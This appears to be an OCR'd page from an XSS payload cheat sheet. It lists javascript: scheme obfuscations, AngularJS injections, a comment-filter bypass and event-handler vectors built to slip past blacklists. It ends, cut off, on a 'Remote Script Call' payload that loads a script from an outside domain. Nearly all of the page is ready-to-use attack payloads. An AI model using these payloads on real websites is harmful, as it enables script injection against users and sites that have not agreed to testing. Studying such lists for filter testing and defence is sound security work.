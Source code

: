 ```
```
javas&#99ript:1
javascript&colon;1
javascript&#9:1
&#1javascript:1
"javas%0Dcript:1"
%00javascript:1
```


## AngularJS Injection (v1.6+)
– No Parentheses, Brackets or Quotes
Use to avoid filtering. First payload avoids parentheses, second one avoids brackets and the
last vector
avoids quotes by using it in the same or in a separated injection point. Encode 
properly in URLs 
```
{{$new.constructor&#40'alert\u00281\u0029'&#41&#40&#41}}
&#123&#123$new.constructor('alert(1)')()&#125&#125
<x ng-init=a='alert(1)'>{{$new.constructor(a)()}}
```


## Inside Comments Bypass
Vector to use if anything inside HTML comments are allowed (regex: /<!--.*-->/).
```
<svg onload=alert(1)-->
```



## Agnostic Event Handlers Vectors – Native Script Based
Vectors with event handlers that can be used with arbitrary tag names useful to bypass 
blacklists. They require some script loaded in page after the point of injection in source 
code. Keep in mind that using existing tag names like `<b` for below handlers might be the 
only way to trigger in some scenarios. 
```
<x onafterscriptexecute=alert(1)>                                          
<x onbeforescriptexecute=alert(1)>
```


## Agnostic Event Handlers Vectors – CSS3 Based
Vectors with event handlers that can be used with arbitrary tag names useful to bypass 
blacklists. They require CSS in the form of `<style>` or importing stylesheet with `<link>`. Last 
four ones work only in Firefox.
```
<x onanimationend=alert(1)><style>x{animation:s}@keyframes s{}
<x onanimationstart=alert(1)><style>x{animation:s}@keyframes s{}
<x onwebkitanimationend=alert(1)><style>x{animation:s}@keyframes s{}
<x onwebkitanimationstart=alert(1)><style>x{animation:s}@keyframes s{}
<x ontransitionend=alert(1)><style>*{transition:color 1s}*:hover{color:red}
<x ontransitionrun=alert(1)><style>*{transition:color 1s}*:hover{color:red}
<x ontransitionstart=alert(1)><style>*{transition:color 1s}*:hover{color:red}
<x ontransitioncancel=alert(1)><style>*{transition:color 1s}*:hover{color:red}
```


## Remote Script Call
Use when you need to call an external script but XSS vector is an handler-based one (like `<svg onload=`) or in javascript injections. The `brutelogic.com.br` domain along with HTML and js files are used as examples. If `>` is being filtered somehow, replace `r=>` or `w=>` for `function()`. 
=> HTML-based (response must be HTML with an Access-Control-Allow-Origin (CORS) header)
```
"var x=new XMLHttpRequest();x.open('GET','//brutelogic.com.br/0.php');x.send();